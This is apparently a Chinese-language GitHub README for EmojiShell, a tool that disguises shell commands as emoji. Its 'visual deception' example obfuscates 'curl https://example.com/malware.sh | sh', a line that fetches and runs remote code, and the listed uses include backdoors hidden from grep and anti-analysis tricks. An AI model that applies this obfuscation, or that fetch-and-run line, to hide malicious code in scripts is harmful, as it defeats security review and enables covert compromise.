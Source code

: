 🌟 EmojiShell | 用表情包守护你的 Shell 脚本

项目定位：

一个专注于 Emoji 混淆技术 的 Shell 脚本安全工具库，通过将敏感代码转换为颜文字、符号组合和动态字体，实现 视觉迷惑 与 逆向防御 的平衡。

🔑 核心功能

1. Emoji 代码伪装
   - 将 
"rm -rf" 转换为 
"✂️➡️🚫📁"，混淆关键指令
   - 支持自定义 Emoji 映射表（如 
"🐚=echo", 
"😈=sudo"）
2. 动态混淆引擎
   - 基于 Shell 的运行时语法代码加密（每次执行自动变换 Emoji 形式）
   - 结合 多种混合加密的 Emoji 编码方案
3. 反调试陷阱
   - 通过 
"$RANDOM" 生成伪随机 Emoji 流干扰静态分析
4. Shell 加壳工具
   - 一键生成混淆后的 
".sh" 二进制文件（兼容 Linux/macOS）
   - 支持自定义 Shell 解释器内容

🎯 技术亮点

- 立即部署：
“使用 Shell 来加密 Shell”
- 视觉欺骗设计：
EmojiCode

# 原始命令
curl https://example.com/malware.sh | sh

# EmojiShell 版本
${🐚}t${☕}p${🌐}s://${🔒}x${📡}m${🔍}l${🚪}.com/${💻}l${🖥}e.sh | ${💻}h
- 可扩展性：
   - 兼容 
"zsh"/
"ash" 等非标准 Shell 环境

🚀 快速上手

# 安装依赖
git clone https://github.com/haothtrteen/EmojiShell.git
cd EmojiShell && chmod +x install.sh

# 混淆示例
echo "whoami" | ./emoji-obfuscator --level hard
# 输出：👤${🔑}who${🔒}ami${🔓}

# 生成全加密脚本
暂时不建议

🛡️ 应用场景

- 敏感脚本保护：运维脚本、自动化渗透测试工具
- 代码混淆教学：逆向工程实验、CTF 题目设计
- 沙雕开发：用 Emoji 写出无法被 grep 搜索到的隐藏后门 😈

📜 许可证

- MIT License（开源自由，但禁止用于非法活动）
- 商业授权：企业级定制化混淆规则需联系 
"2557976190@qq.com"

🤝 参与贡献

1. Fork 仓库并提交 PR（如新增 Emoji 编码规则）
2. 报告漏洞至 Issues（标注 
"[Security]" 标签）
3. 在 Twitter 带话题 
"#EmojiShell" 分享你的混淆成果 🚀

最后更新：2025-09-10

项目愿景：让 Shell 脚本成为逆向工程师的噩梦 🧟♂️💻

设计思路

1.  Shell语法
2. 尝试通过emoji来代替函数变量
3. 编写自动化加密工具


# 目前仍存在的bug以及需要更新的功能

- 在执行复杂命令或语法时会无法运行，正在尝试修复（暂时尝试使用跳过关键指令加密来修复）
- 在ash（Android系统终端环境）中运行并不是特别理想在尝试优化
- 目前只支持对“0~9,a~z”所有的数字及英文字母进行加密，对特殊字符语言的加密需要更新
